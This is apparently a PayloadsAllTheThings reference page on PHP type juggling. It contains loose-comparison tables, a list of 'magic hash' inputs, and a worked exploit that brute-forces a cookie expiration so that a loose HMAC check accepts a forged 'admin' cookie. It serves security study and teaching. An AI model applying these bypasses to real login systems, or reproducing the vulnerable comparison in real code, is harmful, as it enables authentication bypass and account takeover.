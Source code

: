 # Type Juggling

> PHP is a loosely typed language, which means it tries to predict the programmer's intent and automatically converts variables to different types whenever it seems necessary. For example, a string containing only numbers can be treated as an integer or a float. However, this automatic conversion (or type juggling) can lead to unexpected results, especially when comparing variables using the '==' operator, which only checks for value equality (loose comparison), not type and value equality (strict comparison).

## Summary

* [Loose Comparison](#loose-comparison)
	* [True statements](#true-statements)
	* [NULL statements](#null-statements)
	* [Loose Comparison](#loose-comparison)
* [Magic Hashes](#magic-hashes)
* [Exploit](#exploit)
* [References](#references)


## Loose Comparison

> PHP type juggling vulnerabilities arise when loose comparison (== or !=) is employed instead of strict comparison (=== or !==) in an area where the attacker can control one of the variables being compared. This vulnerability can result in the application returning an unintended answer to the true or false statement, and can lead to severe authorization and/or authentication bugs.

- **Loose** comparison: using `== or !=` : both variables have "the same value".
- **Strict** comparison: using `=== or !==` : both variables have "the same type and the same value".

### True statements

| Statement                         | Output |
| --------------------------------- |:---------------:|
| `'0010e2'   == '1e3'`             | true |
| `'0xABCdef' == ' 0xABCdef'`       | true (PHP 5.0) / false (PHP 7.0) |
| `'0xABCdef' == '     0xABCdef'`   | true (PHP 5.0) / false (PHP 7.0) |
| `'0x01'     == 1`       		    | true (PHP 5.0) / false (PHP 7.0) |
| `'0x1234Ab' == '1193131'`         | true |
| `'123'  == 123`                   | true |
| `'123a' == 123`                   | true |
| `'abc'  == 0`                     | true |
| `'' == 0 == false == NULL`        | true |
| `'' == 0`                         | true |
| `0  == false `                    | true |
| `false == NULL`                   | true |
| `NULL == ''`                      | true |

> PHP8 won't try to cast string into numbers anymore, thanks to the Saner string to number comparisons RFC, meaning that collision with hashes starting with 0e and the likes are finally a thing of the past! The Consistent type errors for internal functions RFC will prevent things like `0 == strcmp($_GET['username'], $password)` bypasses, since strcmp won't return null and spit a warning any longer, but will throw a proper exception instead. 

![LooseTypeComparison](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/Images/table_representing_behavior_of_PHP_with_loose_type_comparisons.png?raw=true)

Loose Type Comparisons occurs in many languages:
* [MariaDB](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Mariadb)
* [MySQL](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Mysql)
* [NodeJS](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/NodeJS)
* [PHP](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/PHP)
* [Perl](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Perl)
* [Postgres](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Postgres)
* [Python](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/Python)
* [SQLite](https://github.com/Hakumarachi/Loose-Compare-Tables/tree/master/results/SQLite/2.6.0)


### NULL statements

| Function | Statement                  | Output |
| -------- | -------------------------- |:---------------:|
| sha1     | `var_dump(sha1([]));`      | NULL |
| md5      | `var_dump(md5([]));`       | NULL |


## Magic Hashes

>  Magic hashes arise due to a quirk in PHP's type juggling, when comparing string hashes to integers. If a string hash starts with "0e" followed by only numbers, PHP interprets this as scientific notation and the hash is treated as a float in comparison operations. 

| Hash | "Magic" Number / String    | Magic Hash                                    | Found By / Description      |
| ---- | -------------------------- |:---------------------------------------------:| -------------:|
| MD4  | gH0nAdHk                   | 0e096229559581069251163783434175              | [@spaze](https://github.com/spaze/hashes/blob/master/md4.md) |
| MD4  | if+hTai                   | 00e90130237707355082822449868597              | [@spaze](https://github.com/spaze/hashes/blob/master/md4.md) |
| MD5  | 240610708                  | 0e462097431906509019562988736854              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | QNKCDZO                    | 0e830400451993494058024219903391              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 0e1137126905               | 0e291659922323405260514745084877              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 0e215962017                | 0e291242476940776845150308577824              | [@spazef0rze](https://twitter.com/spazef0rze/status/439352552443084800) |
| MD5  | 129581926211651571912466741651878684928                | 06da5430449f8f6f23dfc1276f722738              | Raw: ?T0D??o#??'or'8.N=? |
| SHA1 | 10932435112                | 0e07766915004133176347055865026311692244      | Independently found by Michael A. Cleverly & Michele Spagnuolo & Rogdham |
| SHA-224 | 10885164793773          | 0e281250946775200129471613219196999537878926740638594636 | [@TihanyiNorbert](https://twitter.com/TihanyiNorbert/status/1138075224010833921) |
| SHA-256 | 34250003024812          | 0e46289032038065916139621039085883773413820991920706299695051332 | [@TihanyiNorbert](https://twitter.com/TihanyiNorbert/status/1148586399207178241) |
| SHA-256 | TyNOQHUS                | 0e66298694359207596086558843543959518835691168370379069085300385 | [@Chick3nman512](https://twitter.com/Chick3nman512/status/1150137800324526083)

```php
<?php
var_dump(md5('240610708') == md5('QNKCDZO')); # bool(true)
var_dump(md5('aabg7XSs')  == md5('aabC9RqS'));
var_dump(sha1('aaroZmOk') == sha1('aaK1STfY'));
var_dump(sha1('aaO8zKZF') == sha1('aa3OFF9m'));
?>
```

## Exploit

The vulnerability in the following code lies in the use of a loose comparison (!=) to validate the $cookie['hmac'] against the calculated `$hash`.

```php
function validate_cookie($cookie,$key){
	$hash = hash_hmac('md5', $cookie['username'] . '|' . $cookie['expiration'], $key);
	if($cookie['hmac'] != $hash){ // loose comparison
		return false;
		
	}
	else{
		echo "Well done";
	}
}
```

In this case, if an attacker can control the $cookie['hmac'] value and set it to a string like "0", and somehow manipulate the hash_hmac function to return a hash that starts with "0e" followed only by numbers (which is interpreted as zero), the condition $cookie['hmac'] != $hash would evaluate to false, effectively bypassing the HMAC check.

We have control over 3 elements in the cookie:
- `$username` - username you are targeting, probably "admin"
- `$expiration` - a UNIX timestamp, must be in the future
- `$hmac` - the provided hash, "0"

The exploitation phase is the following:
1. Prepare a malicious cookie: The attacker prepares a cookie with $username set to the user they wish to impersonate (for example, "admin"), `$expiration` set to a future UNIX timestamp, and $hmac set to "0".
2. Brute force the `$expiration` value: The attacker then brute forces different `$expiration` values until the hash_hmac function generates a hash that starts with "0e" and is followed only by numbers. This is a computationally intensive process and might not be feasible depending on the system setup. However, if successful, this step would generate a "zero-like" hash.
	```php
	// docker run -it --rm -v /tmp/test:/usr/src/myapp -w /usr/src/myapp php:8.3.0alpha1-cli-buster php exp.php
	for($i=1424869663; $i < 1835970773; $i++ ){
		$out = hash_hmac('md5', 'admin|'.$i, '');
		if(str_starts_with($out, '0e' )){
			if($out == 0){
				echo "$i - ".$out;
				break;
			}
		}
	}
	?>
	```
3. Update the cookie data with the value from the bruteforce: `1539805986 - 0e772967136366835494939987377058`
	```php
	$cookie = [
		'username' => 'admin',
		'expiration' => 1539805986,
		'hmac' => '0'
	];
	```
4. In this case we assumed the key was a null string : `$key = '';`


## References

* [Writing Exploits For Exotic Bug Classes: PHP Type Juggling By Tyler Borland](http://turbochaos.blogspot.com/2013/08/exploiting-exotic-bugs-php-type-juggling.html)
* [Magic Hashes - WhiteHatSec](https://www.whitehatsec.com/blog/magic-hashes/)
* [PHP Magic Tricks: Type Juggling](https://owasp.org/www-pdf-archive/PHPMagicTricks-TypeJuggling.pdf)
* [spaze/hashes - Magic hashes – PHP hash "collisions"](https://github.com/spaze/hashes)
* [(Super) Magic Hashes - Mon 07 October 2019 - myst404 (@myst404_)](https://offsec.almond.consulting/super-magic-hash.html)